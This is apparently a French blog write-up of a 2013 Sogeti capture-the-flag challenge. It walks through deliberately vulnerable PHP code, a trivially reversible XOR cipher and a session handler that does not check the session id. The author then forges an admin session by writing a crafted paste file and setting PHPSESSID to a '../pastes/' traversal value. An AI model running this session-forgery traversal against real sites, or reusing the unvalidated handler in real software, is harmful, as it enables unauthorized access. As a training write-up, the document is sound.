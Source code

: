 ```yaml
---
layout: post
title: Writeup challenge Sogeti
description: Un petit writeup pour le challenge réalisé à l'occasion d'un "security event" organisé par Sogeti.
photo: challenge_sogeti.png
categories: hacking
tags: [sogeti, ctf]
comments: true
---
```


Dans cet article je vais décrire les étapes nécessaire à la résultion d'un challenge réalisé à l'occasion d'un "security event" organisé par Sogeti le 25 juin 2013.

Sur la page d'accueil le message suivant est présent :

>Ce site web vous propose de stocker vos messages en ligne tout en les chiffrant à l'aide d'un algorithme inviolable.
>Votre but est d'accéder à la zone d'administration du site, une partie du code source est aussi disponible

## Un algorithme inviolable ? ##

Première étape, il va s'intéresser à cette algorithme soit disant inviolable.

Code de la page *add.php* :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(isset($_POST['message']) && isset($_POST['password']) && strlen($_POST['password']) >= 5)
{
    $name_file = md5(microtime());
    $cipher = cipher_it($_POST['message'], stripslashes($_POST['password']));
    $f = fopen(PASTE_DIRECTORY.$name_file, 'w+');
    fwrite($f, $cipher);
    fclose($f);
    header("Location: show.php?id=".$name_file."&password=".urlencode(stripslashes($_POST['password'])));
    exit;
}

$pagename = "add";
$title = "Nouveau message";
include 'includes/header.php';
?>
{% endhighlight %}

La fonction utlisée pour encoder le message est *cipher_it* et prend en argument le message ainsi qu'un mot de passe pour l'encoder.

Cette même fonction est utilisée pour décoder le message :

{% highlight php linenos %}
<?php

include 'includes/init.php';

if(!isset($_GET['id']) || !isset($_GET['password']) || preg_match("/^[0-9a-f]{32}$/", $_GET['id']) == false)
{
    header("Location: index.php");
    exit;
}

if(!is_file(PASTE_DIRECTORY.$_GET['id']))
{
    header("Location: index.php");
    exit;
}

$f = fopen(PASTE_DIRECTORY.$_GET['id'], "rb");
$content = cipher_it(fread($f, filesize(PASTE_DIRECTORY.$_GET['id'])), $_GET['password']);
fclose($f);

$pagename = "show";
$title = "Voir un message";
include 'includes/header.php';

    echo "<fieldset class=\"event_form\" style='text-align:left;'><pre style='background:transparent;'>".htmlspecialchars($content)."</pre></fieldset>";

include 'includes/footer.php';
?>
{% endhighlight %}

Cela signifie que si l'on applique deux fois la fonction permettant d'encoder le message avec le même mot de passe, on retombe sur le message d'origine. On pense alors à la fonction *xor* souvent utilisée en crypto et qui possède cette propriété. De plus, on observe qu'il est possible d'accéder au message chiffré car la constante *PASTE_DIRECTORY* est définie dans le fichier *consts.php*.

{% highlight php %}
<?php
define('PASTE_DIRECTORY', __DIR__.'/../pastes/');
?>
{% endhighlight %}

Les fichiers seront donc accessibles à partir de cette adresse :

    http://217.109.132.34/challenge/pastes/[MD5]

On va faire un petit test pour vérifier cette hypothèse. Si on chiffre le message test1 avec la clé test1 on se retrouve avec cette url :

    http://217.109.132.34/challenge/show.php?id=56499aff7b85dd3778f3572b1b822176&password=test1

Pour accéder au message chiffré il faut se rendre à l'adresse suivante :

    http://217.109.132.34/challenge/pastes/56499aff7b85dd3778f3572b1b822176

Quand on ouvre le fichier avec un éditeur de texte on se retrouve avec que des zéros :

    0000 0000 00

C'est donc bien la fonction *xor* qui est utilisée pour chiffrer les messages. On est donc désormais en mesure de créer des fichiers sur le serveur dont on maîtrise le contenu.

## Accès à la page d'administration ##

L'objectif premier de ce challenge est d'accéder à la page d'administration, jeton un coup d'oeil au code source :

{% highlight php linenos %}
<?php

include 'includes/init.php';

$pagename = "admin";
$title = "Administration";
include 'includes/header.php';

if(!isset($_SESSION['admin']) || $_SESSION['admin'] !== true)
{
    header("Location: index.php");
    exit;
}

define('ADMIN', true);
include 'admin_ok.php';

include 'includes/footer.php';
?>
{% endhighlight %}

On remarque qu'il n'est possible d'accéder à la page d'administration que si la variable de session admin est à true. Il nous faudrait donc un moyen nous permettant de manipuler la session.

## Gestion des sessions ##

Intéressons nous maintenant aux fichiers *init.php* et *class_session.php* :

{% highlight php linenos %}
<?php
class SuperSessionHandler{
    private $savePath;

    public function open($savePath, $sessionName){
        $this->savePath = $savePath;
        if (!is_dir($this->savePath)) {
            mkdir($this->savePath, 0777);
        }
        return true;
    }

    public function close(){
        return true;
    }

    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }

    public function write($id, $data){
        return file_put_contents("$this->savePath/$id", $data) === false ? false : true;
    }

    public function destroy($id){
        $file = "$this->savePath/$id";
        if (file_exists($file)) {
            unlink($file);
        }
        return true;
    }

    public function gc($maxlifetime){
        foreach (glob("$this->savePath/*") as $file) {
            if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
                unlink($file);
            }
        }

        return true;
    }
}
?>
{% endhighlight %}

{% highlight php lineos %}
<?php

include 'includes/fonctions.php';
include 'includes/consts.php';
include 'includes/class_sessions.php';

error_reporting(0);

$s = new SuperSessionHandler();
session_save_path(__DIR__.'/../sessions/');
session_set_save_handler (
        array(&$s, 'open'),
        array(&$s, 'close'),
        array(&$s, 'read'),
        array(&$s, 'write'),
        array(&$s, 'destroy'),
        array(&$s, 'gc')
        );
session_start();
?>
{% endhighlight %}

On remarque qu'une classe a été crée permettant de redéfinir la manière dont seront stockées les sessions, les sessions sont stockée dans le dossier *sessions*. Pour accéder à la session il faut se rendre à l'adresse :

    http://217.109.132.34/challenge/sessions/[PHPSESSID]

Si on regarde de plus près la fonction *read*, il s'avère que le paramètre *id*n'est pas du tout contrôlé !

{% highlight php %}
<?php
    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }
?>
{% endhighlight %}

On est donc en mesure de choisir le fichier qui sera utilisé comme session est modifiant le PHPSESSID.

## Résolution de l'épreuve ##

Si on récapitule :
-   Il nous est possible de créer sur le serveur un fichier au contenu arbitraire
-   Pour accéder à la page d'administration il faut modifier sa session
-   On a de la chance la gestion des sessions est personnalisée

On va donc crée un message chiffré qui sera utilisé comme fichier de session afin de se faire passer pour l'admin. Le contenu du fichier de session avec la variable admin à true ressemble à ça :

    admin|b:1;

Pour obtenir le message chiffré j'ai créé un petit script qui me génère une clé afin que le premier texte chiffré ne contienne que des caractère imprimables.

{% highlight php lineos %}
<?php
function xor_this($string,$key) {
 // Our plaintext/ciphertext
 $text =$string;

 // Our output text
 $outText = '';

 // Iterate through each character
 for($i=0;$i<strlen($text);)
 {
     for($j=0;($j<strlen($key) && $i<strlen($text));$j++,$i++)
     {
         $outText .= $text{$i} ^ $key{$j};
         //echo 'i='.$i.', '.'j='.$j.', '.$outText{$i}.'<br />'; //for debugging
     }
 }
 return $outText;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

while(1){
    $key =generateRandomString();
    if(ctype_print(xor_this('admin|b:1;',$key))){
        echo $key."<br/>";
        echo ctype_print(xor_this('admin|b:1;',$key));
        die();
    }
}
?>
{% endhighlight %}

Le principe est simple je génère une chaine de caractère aléatoire de même taille que le texte à chiffrer et je vérifie que le texte obtenu en sortie est constitué uniquement de caractère imprimables avec la fonction *ctype_print*.

Clés qui fonctionnnent :

    Y3BFOWOXlV
    KYNZAPHCcC
    GZV2KSEpds

Une fois que l'on a la clé il suffit de chiffrer le message une première fois avec la clé, pour chiffrer à nouveau le résultat avec cette même clé.

    Clé     : FJQ5VPSStf
    Message : admin|b:1;
    Cipher  : '.<\8,1iE]

    Clé     : FJQ5VPSStf (clé)
    Message : '.<\8,1iE] (cipher)
    Cipher  : admin|b:1;

On se rend à l'adresse du message chiffré et on retrouve bien notre message d'origine

Il ne reste plus qu'a changé la valeur du *PHPSESSID* pour qu'il pointe sur notre message. Pour cela j'ai utilisé l'extension "Edit this cookie" pour Chrome et j'ai remplacé la valeur du *PHPSESSID* par :

    ../pastes/2790cdae372837fbc4347f63990bda54

Et voila si l'on se rend sur la page d'administration le message affiché est désormais :

>Félicitations !
>Le message caché est :
>Si tu es arrivé(e) jusque là c'est que tu peux aller jusqu'Issy !

Au final une épreuve pas très compliquée mais intéressante :)

